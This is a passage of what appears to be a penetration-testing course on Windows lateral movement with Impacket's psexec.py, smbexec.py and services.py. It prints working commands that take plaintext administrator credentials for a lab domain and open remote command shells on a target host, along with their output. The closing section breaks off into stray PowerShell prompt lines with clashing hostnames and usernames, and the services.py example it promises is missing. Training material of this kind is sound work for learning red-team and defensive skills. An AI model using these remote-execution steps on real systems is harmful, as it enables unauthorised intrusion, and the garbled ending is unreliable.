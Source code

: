 We can use `psexec.py` to get remote code execution on a target host, administrator login credentials are required. We must provide the domain, admin level user, password, and the target IP as follows `<domain>/<user>:<password>@<ip>`:

```shell
proxychains4 -q psexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 172.20.0.52.....
[*] Found writable share ADMIN$
[*] Uploading file sRhFLBbo.exe
[*] Opening SVCManager on 172.20.0.52.....
[*] Creating service KQWG on 172.20.0.52.....
[*] Starting service KQWG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

### smbexec.py

The [smbexec.py](https://github.com/fortra/impacket/blob/master/examples/smbexec.py) method leverages the built-in Windows SMB functionality to run arbitrary commands on a remote system without uploading files, making it a quieter alternative.

Communication occurs exclusively over TCP port 445. It also sets up a service, using only MSRPC for this, and manages the service through the `svcctl` SMB pipe.

To use this tool, we must provide the domain name, administrator user, password, and the target IP address `<domain>/<user>:<password>@<ip>`:

```shell
proxychains4 -q smbexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>

```

As we can see, we now have established a semi-interactive shell on the host.

### services.py

The [services.py](https://github.com/fortra/impacket/blob/master/examples/services.py) script in Impacket interacts with Windows services using the [MSRPC](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) interface. It allows starting, stopping, deleting, reading status, configuring, listing, creating, and modifying services. During Red Teaming assignments, many tasks can be greatly simplified by gaining access to the target machine's services. This technique is non-interactive, meaning that we won't be able to see the results of the actions in real time.

We can view a list of services in the target host, by typing the command `list` after providing the domain name, the administrator account, the password, and target IP address `<domain>/<user>:<password>@<ip>`:


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>